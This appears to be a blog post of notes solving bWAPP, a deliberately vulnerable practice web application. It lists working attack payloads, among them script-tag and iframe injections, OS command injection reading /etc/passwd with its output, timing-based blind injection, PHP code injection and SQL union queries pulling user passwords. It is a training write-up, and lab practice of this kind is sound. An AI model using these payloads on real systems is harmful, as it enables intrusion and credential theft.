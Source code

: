 ```yaml
---
layout: post
title: bwapp
slug: bwapp
name: bwapp
---
```


# bwapp

## A1 HTML injection - Reflected (GET)

### low

{% highlight html %}

First name: <script>alert(1)</script>
Last name: <script>alert(2)</script>

{% endhighlight #}

### medium

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### high

??

## A1 HTML Injection - Reflected (POST)

### Low: 

{% highlight html %}
First: <script>alert(1)</script>
Last: <script>alert(1)</script>
{% endhighlight %}

### Medium:

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### High:

??

## A1 HTML Injection - Reflected (URL)

### Low

Set host in request to whatever you want

## A1 Html Injection - Stored (Blog)

{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

## Iframe injection

?ParamUrl=robots.txt" onload="alert(1)&ParamWidth=250&ParamHeight=250

## SMTP Injection

Doesn't seem to work in docker image, but adding the following should execute:

To: malicious@email.com
Subject: Whatever

## LDAP Injection

Doesn't seem to work in VM

## OS Command Injection

{% highlight bash %}
www.nsa.gov;cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false 

{% endhighlight %}

## Blind OS Command Injection

{% highlight bash %}
127.0.0.1;sleep 10s;
{% endhighlight %}

The key is to verify the request takes the amount of time you're telling it to

## PHP Code Injection

http://127.0.0.1:2000/phpi.php?message=phpinfo()

## Server-side includes injection

Doesn't seem to work on the docker version

## SQL Injection (get)

' or 1 union all select 1,2,User,Password,5,6,7 from mysql.user -- '


## SQL Injection (select/get)

0 or 1 != 1 union all select 1,2,3,4,5,6,7

